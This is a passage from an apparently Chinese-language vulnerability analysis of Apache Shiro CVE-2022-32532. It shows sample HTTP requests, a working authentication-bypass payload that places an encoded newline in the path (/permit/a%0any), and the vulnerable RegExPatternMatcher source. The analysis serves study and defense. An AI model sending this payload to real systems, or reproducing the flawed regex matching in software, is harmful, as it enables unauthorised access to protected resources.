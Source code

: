 Output:

> pattern: /permit/a
> b is match!



---

### 漏洞场景



#### Apache Shiro CVE-2022-32532

漏洞环境 https://github.com/4ra1n/CVE-2022-32532

正常情况下场景：

请求中带了Token是能访问/permit/的目录，如果没有带Token是不允许访问。



```http
GET /permit/any HTTP/1.1
Token: 4ra1n
```


> success


```http
GET /permit/any HTTP/1.1
```

> Access is not allowed


```http
GET /permit/a%0any HTTP/1.1
```

> Bypass Success

---



漏洞源代码`org.apache.shiro.util.RegExPatternMatcher` 实现

``` java
package org.apache.shiro.util;

import java.util.regex.Matcher;
import java.util.regex.Pattern;

public class RegExPatternMatcher implements PatternMatcher {
    public RegExPatternMatcher() {
    }

    public boolean matches(String pattern, String source) {
        if (pattern == null) {
            throw new IllegalArgumentException("pattern argument cannot be null.");
        } else {
            Pattern p = Pattern.compile(pattern);
            Matcher m = p.matcher(source);
            return m.matches();
        }
    }
}

```
